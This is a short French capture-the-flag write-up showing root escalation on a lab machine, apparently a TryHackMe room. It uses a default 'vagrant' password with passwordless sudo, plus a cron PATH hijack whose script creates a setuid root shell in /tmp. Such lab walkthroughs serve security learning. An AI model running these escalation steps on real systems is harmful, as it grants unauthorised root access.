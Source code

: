 Il apparait qu'on peut se connecter avec *vagrant* en utilisant le mot de passe *vagrant*.

L'utilisateur a ensuite les droits pour passer root :

```shellsession
www-data@ubuntu-xenial:/$ su vagrant
Password: 
vagrant@ubuntu-xenial:/$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
vagrant@ubuntu-xenial:/$ sudo -l
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL
vagrant@ubuntu-xenial:/$ sudo su
root@ubuntu-xenial:/# cd /root
root@ubuntu-xenial:~# ls
root.txt
root@ubuntu-xenial:~# cat root.txt | base64 -d
Hey There,
Myself Gaurav Raj, Hacker, Programmer & FreeLancer.
This is my first attempt to create a room. Let me know if you liked it.
Any issue or suggestions for me. Ping me at twitter

Twitter: @thehackersbrain
Github: @thehackersbrain
Instagram: @thehackersbrain
Blog: https://thehackersbrain.pythonanywhere.com


Here's Your Flag.
flag{W311_D0n3_Y0u_P3n3tr4t3d_M3 :)}
```

## Autre méthode

Pour faire le chemin depuis james on peut exploiter le fait que le dossier personnel de l'utilisateur est en premier de l'ordre de path spécifié dans la crontab :

```shellsession
james@ubuntu-xenial:~$ cat privesc.sh 
#!/bin/sh
cp /bin/sh /tmp/rootshell
chmod 4755 /tmp/rootshell
james@ubuntu-xenial:~$ cp privesc.sh tar
```

On attend un peu et BOUM on a notre shell avec euid root :

```shellsession
james@ubuntu-xenial:~$ /tmp/rootshell -p
# id
uid=1002(james) gid=1002(james) euid=0(root) groups=1002(james)
```
